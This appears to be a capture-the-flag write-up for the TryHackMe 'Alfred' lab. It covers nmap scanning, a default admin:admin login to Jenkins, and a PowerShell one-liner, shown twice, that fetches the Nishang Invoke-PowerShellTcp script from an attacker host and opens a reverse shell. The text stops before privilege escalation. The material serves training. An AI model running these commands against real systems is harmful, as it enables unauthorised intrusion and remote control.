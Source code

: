 # Alfred


Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.

[Alfred](https://tryhackme.com/room/alfred)

---

We will be exploiting this box today. According to the brief overview this is a windows application and it is recommended that we use the [Nishang](https://github.com/samratashok/nishang) project to gain initial access. Also they specified that we use this [specific script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

## How many ports are open? (TCP only)

### Enumeration

#### nmap

```bash
┌──(root㉿kali)-[/home/z3tssu]
└─# nmap -v 10.10.34.156 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-12 07:56 +04
Initiating Parallel DNS resolution of 1 host. at 07:56
Completed Parallel DNS resolution of 1 host. at 07:56, 0.11s elapsed
Initiating SYN Stealth Scan at 07:56
Scanning 10.10.34.156 [1000 ports]
Discovered open port 80/tcp on 10.10.34.156
Discovered open port 8080/tcp on 10.10.34.156
Discovered open port 3389/tcp on 10.10.34.156
Completed SYN Stealth Scan at 07:56, 17.19s elapsed (1000 total ports)
Nmap scan report for 10.10.34.156
Host is up (0.25s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
8080/tcp open  http-proxy
```

There are 3 open ports from the Nmap scan above. Lets explore the webservers on port 80 and port 8080.

## What is the username and password for the login panel?

### Webserver Enumeration

Viewing the webserver on port 80:
![[Pasted image 20251013214110.png]]

Viewing the webserver on port 8080:
![[Pasted image 20251013214126.png]]
So there are two webservers, one is a website hosted claiming that Bruce Wayne is dead and there is an address specified:

```bash
alfred@wayneenterprises.com
```

The other one seems to be access to the Jenkins platform with a username and password field.

### Default Credentials
1. Lets try using admin:admin on the webserver login
2. It WORKED
![[Pasted image 20251013214248.png]]

## What is the User.txt flag?

We get a hint of how to continue exploiting this room

Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server

### Download the Nishang Script 
1. Run the following
```shell
wget ttps://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```
2. Start our webserver on out attacker machine with the following
```bash
python -m http.server 8000
```

### Exploit the command injection vulnerability
We can now exploit the command injection vulnerability in the vulnerable part of the application to get a reverse shell by the command below

```shell
powershell iex (New-Object  Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp  -Reverse -IPAddress your-ip -Port your-port
```

replace http://your-ip:your-port/Invoke-PowerShellTcp.ps1 with the address obtained from your updog webserver